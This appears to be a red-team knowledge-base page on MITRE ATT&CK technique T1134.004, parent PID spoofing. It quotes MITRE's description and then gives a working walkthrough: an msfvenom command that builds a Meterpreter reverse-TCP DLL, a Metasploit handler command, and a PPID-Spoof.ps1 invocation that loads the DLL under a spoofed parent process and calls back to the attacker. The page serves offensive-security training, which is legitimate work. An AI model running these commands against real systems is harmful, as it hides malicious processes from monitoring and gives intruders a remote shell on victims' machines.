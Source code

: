 ```yaml
---
description: https://attack.mitre.org/techniques/T1134/004/
---
```


# Parent PID Spoofing

**ATT\&CK ID:** [T1134.004](https://attack.mitre.org/techniques/T1134/004/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:green;">**User**</mark>

**Description**

Adversaries may spoof the parent process identifier (PPID) of a new process to evade process-monitoring defenses or to elevate privileges. New processes are typically spawned directly from their parent, or calling, process unless explicitly specified. One way of explicitly assigning the PPID of a new process is via the `CreateProcess` API call, which supports a parameter that defines the PPID to use.This functionality is used by Windows features such as User Account Control (UAC) to correctly set the PPID after a requested elevated process is spawned by SYSTEM (typically via `svchost.exe` or `consent.exe`) rather than the current user context.

Adversaries may abuse these mechanisms to evade defenses, such as those blocking processes spawning directly from Office documents, and analysis targeting unusual/potentially malicious parent-child process relationships, such as spoofing the PPID of PowerShell/Rundll32 to be `explorer.exe` rather than an Office document delivered as part of Spearphishing Attachment.

This spoofing could be executed via Visual Basic within a malicious Office document or any code that can perform Native API.

Explicitly assigning the PPID may also enable elevated privileges given appropriate access rights to the parent process. For example, an adversary in a privileged user context (i.e. administrator) may spawn a new process and assign the parent as a process running as SYSTEM (such as `lsass.exe`), causing the new process to be elevated via the inherited access token.

[\[Source\]](https://attack.mitre.org/techniques/T1134/004/)

## Techniques

### Prerequisite

PPID-Spoof requires a DLL to make use of. In this case we are going to create a reverse shell with `msfvenom`.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<Port> -f dll -o reverse.dll
```

Then start corresponding `metasploit` handler

```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport <Port>; exploit"
```

### PPID-Spoof

GitHub: [https://github.com/countercept/ppid-spoofing](https://github.com/countercept/ppid-spoofing)

Download the PowerShell script PPID-Spoof.ps1 and load into memory. From here execute the script where:

| Parameter | Description                | Example                        |
| --------- | -------------------------- | ------------------------------ |
| -ppid     | Current PowerShell process | -ppid 6304                     |
| -spawnto  | Binary on system           | "C:\Windows\System32\calc.exe" |
| -dllpath  | msfvenom dll               | .\reverse.dll                  |

```powershell
 PPID-Spoof -ppid 6304 -spawnto "C:\Windows\System32\calc.exe" -dllpath .\reverse.dll
```

After execution see the DLL has been loaded and spawn a `calc.exe` process under our current PowerShell process.

![](../../../.gitbook/assets/ppid-spoof.png)

As well as a call back to our `Metasploit` handler.

![](<../../../.gitbook/assets/image (1026).png>)

## Mitigation

This type of attack technique cannot be easily mitigated with preventive controls since it is based on the abuse of system features.

## Further Reading

**Parent Process ID (PPID) Spoofing:**[https://www.ired.team/offensive-security/defense-evasion/parent-process-id-ppid-spoofing](https://www.ired.team/offensive-security/defense-evasion/parent-process-id-ppid-spoofing)
